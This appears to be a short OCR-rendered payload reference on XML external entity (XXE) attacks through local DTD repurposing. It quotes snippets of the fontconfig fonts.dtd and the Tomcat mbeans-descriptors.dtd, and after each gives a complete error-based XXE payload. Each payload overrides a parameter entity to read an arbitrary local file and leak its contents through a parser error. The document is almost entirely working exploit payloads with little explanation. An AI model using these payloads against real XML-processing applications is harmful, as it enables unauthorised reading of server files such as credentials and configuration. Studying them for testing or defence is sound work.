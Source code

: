 ```
fonts.dtd:
```

```
<!ENTITY % expr 'int|double|string|matrix|bool|charset|langset
      |name|const
      |or|and|eq|not_eq|less|less_eq|more|more_eq|contains|not_contains
      |plus|minus|times|divide|not|if|floor|ceil|round|trunc'>
[...]
<!ELEMENT test (%expr;)*>
```

```
Associated XXE payload (The entity %expr is overridden):
```

```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///FILE_TO_READ">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>

```

#### ATTLIST injection

```
mbeans-descriptors.dtd:
```

```
<!ENTITY % Boolean "(true|false|yes|no)">
[...]
<!ATTLIST attribute is %Boolean; #IMPLIED>
<!ATTLIST attribute readable %Boolean; #IMPLIED>
<!ATTLIST attribute writeable %Boolean; #IMPLIED>
```

**Associated XXE payload (The entity %Boolean is overridden):**  

```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/tomcat/lib/tomcat-coyote.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///FILE_TO_READ">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>

<message></message>
```
